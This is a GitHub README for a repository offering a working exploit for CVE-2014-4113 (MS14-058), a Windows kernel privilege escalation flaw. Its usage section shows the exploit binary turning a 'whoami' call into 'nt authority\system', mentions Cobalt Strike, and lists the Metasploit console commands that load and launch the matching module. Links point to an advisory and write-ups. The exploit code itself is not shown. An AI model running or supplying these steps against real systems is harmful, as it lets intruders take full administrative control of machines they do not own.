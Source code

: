 # MS14-058 

- Trigger and exploit code for CVE-2014-4113
- The poc was from [@sam-b](https://github.com/sam-b/CVE-2014-4113)

Vulnerability reference:
 * [MS14-058](https://technet.microsoft.com/library/security/ms14-058)
 

## Usage
c:\> Win64.exe whoami
nt authority\system

![win7](win7.png)  
Cobalt Strike 2008  
![2008](2008.png)
## load the module within the Metasploit console
```
    msf > use exploit/windows/local/ms14_058_track_popup_menu
    msf exploit(ms14_058_track_popup_menu) > show targets
          ...targets...
    msf exploit(ms14_058_track_popup_menu) > set TARGET <target-id>
    msf exploit(ms14_058_track_popup_menu) > show options
          ...show and set options...
    msf exploit(ms14_058_track_popup_menu) > exploit
```

## Links

- [CrowdStrike Discovers Use of 64-bit Zero-Day Privilege Escalation Exploit (CVE-2014-4113) by Hurricane Panda](https://www.crowdstrike.com/blog/crowdstrike-discovers-use-64-bit-zero-day-privilege-escalation-exploit-cve-2014-4113-hurricane-panda/)
- [让CVE-2014-4113成功溢出Win8](http://www.freebuf.com/articles/system/50110.html)